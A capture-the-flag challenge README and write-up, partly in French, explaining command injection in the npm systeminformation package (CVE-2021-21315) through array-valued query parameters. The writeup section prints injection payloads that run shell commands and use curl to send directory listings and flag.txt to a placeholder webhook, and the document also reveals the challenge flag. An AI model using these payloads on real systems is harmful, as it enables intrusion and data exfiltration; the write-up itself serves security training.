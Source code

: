 # Quotes-A-Day 2 (API2)

> Web <br>
> Author: @Strix

## Prompt

OK, we've patched the previous vulnerability and finally implemented our new system health check feature. Users can now
query our **system information** to check if a site or a service is available or not and make sure to get their daily quote!

## Flag

FLAG: `FLAG-0WASP_T0P_9_PATCH_Y0UR_NPM_PACKAG3S`

## Outils nécessaires

- docker-compose

## Exécution

```bash
docker-compose up --build --force-recreate --renew-anon-volumes
```

## Writeup

Le défi ici est une vulnérabilité d'injection de commande dans un package très populaire de nodejs appelée [systeminformation](https://www.npmjs.com/package/systeminformation).
Le package a une vulnérabilité dans 4 fonctions dans lesquels un utilisateur fournit du input non filtré/_santized_.

L'injection de commande se produit ici par l'utilisation d'un tableau plutôt que d'une chaîne, en raison d'un manque de filtrage dans l'une des fonctions du package. (CVE-2021-21315)

Le endpoint `GET /systemInfo` requiert un paramètre `service`.

`GET /systemInfo?service=http://<URL:PORT>/quotes` retourne le statut du service de la route /quotes, mais

`/systemInfo?service[]=$(echo 'command injection')` injecterait la commande, puisque `systeminformation.inetChecksite(<USERINPUT>)` ne _sanitize_ pas les tableaux/listes/arrays, mais uniquement les chaînes de caractères.

L'utilisateur n'a donc qu'à parcourir le répertoire pour trouver le flag.txt. 

```curl
GET /systemInfo?service[]=$(ls -la > out.txt && curl --form "data=@out.txt" <SERVER/WEBHOOK>)
```

```curl
GET /systemInfo?service[]=$(curl --form "data=@flag.txt" <WEBHOOK>)
```
